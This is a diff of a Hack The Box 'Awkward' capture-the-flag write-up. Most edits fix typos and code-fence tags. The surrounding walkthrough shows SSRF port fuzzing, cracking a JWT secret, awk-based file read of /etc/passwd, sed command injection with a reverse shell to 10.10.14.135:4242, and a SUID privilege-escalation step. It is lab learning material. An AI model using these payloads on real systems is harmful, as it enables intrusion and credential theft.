

Add awkward

Changed region(s): [[0.0, 0.0, 1.0, 0.8758], [0.0, 0.906, 0.966, 0.9966]]

diff --git a/htb/machines/awkward/awkward.md b/htb/machines/awkward/awkward.md
@@ -42,7 +42,7 @@ Content-Length: 132
 ```
 
 So we're starting vhost enumeration in the background.  
-looking at the website in the browser, I don't think it does anything over interest, except telling us that they have an online store in construction, and giving us employee names.
+looking at the website in the browser, I don't think it does anything of interest, except telling us that they have an online store in construction, and giving us employee names.
 ```bash
 Christine Wool - CEO
 Bean Hill - Sysadmin
@@ -348,8 +348,10 @@ export default {
 
 So we can start hitting that endpoint to see what happens:  
 apparently the api endpoint itself doesn't even need any kind of auth
-```
+```bash
 curl -s "http://hat-valley.htb/api/staff-details" | jq .
+```
+```json
 [
   {
     "user_id": 1,
@@ -392,7 +394,7 @@ christopher.jones:chris123
 ```
 
 So now we can log in to the app as Christopher and we get a valid signed jwt as him.  
-```
+```python
 import sys
 from jwt.utils import base64url_decode
 from binascii import hexlify
@@ -422,7 +424,7 @@ if __name__ == "__main__":
 
 
 We can use this jwt2john script to crack the password that this jwt was signed with
-```
+```bash
 john --wordlist=/usr/share/wordlists/rockyou.txt chris-jwt.txt
 john hash.txt --show --format=Raw-SHA256
 ?:123beany123
@@ -432,8 +434,8 @@ john hash.txt --show --format=Raw-SHA256
 
 Tried to log in with those creds to the main app, the store app on the vhost, and over ssh, no success so far.
 
-Presumably the store is up thing, reaches the store through the internal network to check if it's up. So maybe we can leverage this as an SSRF, looking at the source in webpack again:
-```
+Presumably the store is up thing reaches the store through the internal network to check if it's up. So maybe we can leverage this as an SSRF, looking at the source in webpack again:
+```js
 import axios from 'axios'
 axios.defaults.withCredentials = true
 const baseURL = "/api/"
@@ -451,7 +453,7 @@ export default {
 ```
 
 And indeed this can be used as a SSRF:
-```
+```bash
 curl -i 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1"'
 HTTP/1.1 200 OK
 Server: nginx/1.18.0 (Ubuntu)
@@ -474,7 +476,7 @@ etag: W/"84-P/5ob00JvOzx20G7pf2GChzepTg"
 ```
 
 So we can leverage this to fuzz for open ports from behind the firewall
-```
+```bash
 ffuf \
   -w /usr/share/seclists/Discovery/Web-Content/local-ports.txt \
   -u 'http://hat-valley.htb/api/store-status?url="http://FUZZ"' \
@@ -508,9 +510,9 @@ ________________________________________________
 127.0.0.1:8080          [Status: 200, Size: 2881, Words: 305, Lines: 55, Duration: 252ms]
 ```
 
-8080 doesn't seem very interesting, and I'm not entirely sure what it is but 3002 is some kind of documentatino page, and it gives us the server side js code for the features we saw from the client side so far.
+8080 doesn't seem very interesting, and I'm not entirely sure what it is but 3002 is some kind of documentation page, and it gives us the server side js code for the features we saw from the client side so far.
 
-In submit-leave feature's code, the const finalEntry is passed to an exec() and we controll the variables that it's made of, and it's then expanded into a system command with echo
+In submit-leave feature's code, the const finalEntry is passed to an exec() and we control the variables that it's made of, and it's then expanded into a system command with echo
 
 In all-leave same concept but potentially more interesting because that's an awk command, and awk is a GTFO bin, and the way the command is constructed seems pretty close to an awk command we could use for arbitrary file read, see the js:
 ```js
@@ -558,7 +560,7 @@ awk '//' /etc/passwd
 ``` 
 
 So the following could work I think:
-``` 
+```js
 const user == "/' /etc/passwd '"
 exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr) => {
     if(stdout) {
@@ -578,7 +580,7 @@ We can do this because we control the user variable since we know the secret to 
 ![jwt-sign.png](jwt-sign.png)  
 
 which means that we now have LFI on the box
-```
+```bash
 curl -i 'http://hat-valley.htb/api/all-leave' -b 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2NzM3MjAyNTd9.hMapu1pjAQ31z6-DnWiUe42dU5LhfxrafWVcNyoZYps'
 HTTP/1.1 200 OK
 Server: nginx/1.18.0 (Ubuntu)
@@ -645,7 +647,7 @@ _laurel:x:999:999::/var/log/laurel:/bin/false
 ```
 
 we know bean is the admin and christine the ceo
-```
+```bash
 grep sh$ passwd
 root:x:0:0:root:/root:/bin/bash
 bean:x:1001:1001:,,,:/home/bean:/bin/bash
@@ -653,15 +655,15 @@ christine:x:1002:1002:,,,:/home/christine:/bin/bash
 ```
 
 Naturaly we can try to pull the ssh private keys for those 2, but no luck.  
-reading a buch of the usual files, we end up reading the bashrc. 
-there's a command alias for a backup script:
-```
+reading a bunch of the usual files, we end up reading the bashrc.   
+There's a command alias for a backup script:
+```bash
 # custom
 alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
 ```
 
 So we're pulling that out:
-```
+```bash
 #!/bin/bash
 mkdir /home/bean/Documents/backup_tmp
 cd /home/bean
@@ -672,9 +674,12 @@ tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
 rm -r /home/bean/Documents/backup_tmp
 ```
 
-So now we know where to pull that backup from. So after extracting the archive we can start looting around in the home folder of bean.  
-Xpad sounds like it could be some kind of a notepad app, and it is indeed.
-```
+Now we know where to pull that backup from.  
+So after extracting the archive we can start looting around in the home folder of bean.  
+Xpad sounds like it could be some kind of a notepad app, and it is indeed.  
+Looks like bean also used that password for his user account on the box. 
+Which means we get a shell over ssh.
+```bash
 pwd
 /home/blnkn/sec/htb/machines/awkward/loot/bean/.config/xpad
 cat content-DS1ZS1
@@ -703,12 +708,12 @@ admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1
 ```
 According to [Apache's docs](https://httpd.apache.org/docs/current/misc/password_encryptions.html) this may not be easily crackable.
 
-but from the readme file bean seems to say that it's his password for the store app, he didn't lie this combo works on the store webapp:
+But in the readme file Bean seems to say that it's his password for the store app, he didn't lie this combo works on the store webapp:
 ```
 admin:014mrbeanrules!#P
 ```
 
-bean also has access to the source code for that store web app, so after reading through this and playing with the webapp, the code to delete from cart seems vulnerable to command injection again:
+Bean also has access to the source code for that store web app, so after reading through this and playing with the webapp, the code to delete from cart seems vulnerable to command injection again:
 ```php
 //delete from cart
 if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' && $_POST['item'] && $_POST['user']) {
@@ -740,7 +745,7 @@ if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' 
 ```
 
 Because it uses sed, sed is a GTFO bin and we control some variables in that expression, we could drop a very simple revshell in /tmp
-```
+```bash
 -bash-5.1$ vi blah.sh
 -bash-5.1$ chmod +x blah.sh
 -bash-5.1$ cat blah.sh
@@ -749,7 +754,7 @@ sh -i >& /dev/tcp/10.10.14.135/4242 0>&1
 ```
 
 And then have sed call it with something like that
-```
+```bash
 sed '1e/tmp/blah.sh' /etc/passwd
 sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}
 sed -i '/item_id=1' -e "1e/tmp/blah.sh" /tmp/blah.sh '/d' /var/www/store/cart/user_id
@@ -758,7 +763,7 @@ sed -i '/item_id=1' -e "1e/tmp/blah.sh" /tmp/blah.sh '/d' /var/www/store/cart/us
 so this means that the `item_id` needs to be `1' -e "1e/tmp/blah.sh" /tmp/blah.sh '` lets go put whatever in the cart and intercept the post to remove it, and we can slap our payload in there with some urlencoding:  
 ![delete.png](delete.png)
 
-and ... disapointingly we get an `Invalid item` error, but that's not a big deal we have the source, lets have a closer look.
+And ... disapointingly we get an `Invalid item` error, but that's not a big deal we have the source, lets have a closer look.
 ```php
     if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
         system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
@@ -805,15 +810,15 @@ item_id=1' -e "1e/tmp/blah.sh" /tmp/blah.sh '&item_name=Straw Hat&item_brand=Sun
 Now we can intercept a cart add and substitute the real item id with our newly created file number, 4 in this case  
 ![sketchy.png](sketchy.png)  
 
-And now the stuff is in there:
-```
+Now the correct item id has been copied to our user's cart
+```bash
 -bash-5.1$ cat    5ce3-9484-af5-1edd
 ***Hat Valley Cart***
 item_id=1&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
 item_id=1' -e "1e/tmp/blah.sh" /tmp/blah.sh '&item_name=Straw Hat&item_brand=Sunny Summer&item_price=$70.00
 ```
 
-let's not forget to have a listener to catch that shell and lets try the delete again.
+Let's not forget to have a listener to catch that shell and lets try the delete again.
 ```bash
 rlwrap nc -lvnp 4242
 listening on [any] 4242 ...
@@ -826,7 +831,7 @@ uid=33(www-data) gid=33(www-data) groups=33(www-data)
 $
 ```
 
-now we have a shell as www-data so we can access that /var/www/private folder taht wasn't readable by bean
+Now we have a shell as www-data so we can access that /var/www/private folder that wasn't readable by bean
 ```bash
 $ pwd
 /var/www/store
@@ -897,7 +902,7 @@ and we see this happening in pspy
 2023/01/16 04:43:15 CMD: UID=0    PID=3636   | local -t unix
 ```
 
-let's try to use the mail GTFO to set bash to SUID, for that we'll start by dropping a SUID script in /tmp
+Let's try to use the mail GTFO to set bash to SUID, for that we'll start by dropping a SUID script in /tmp
 ```bash
 $ cat << EOF > asd
 > #!/bin/bash
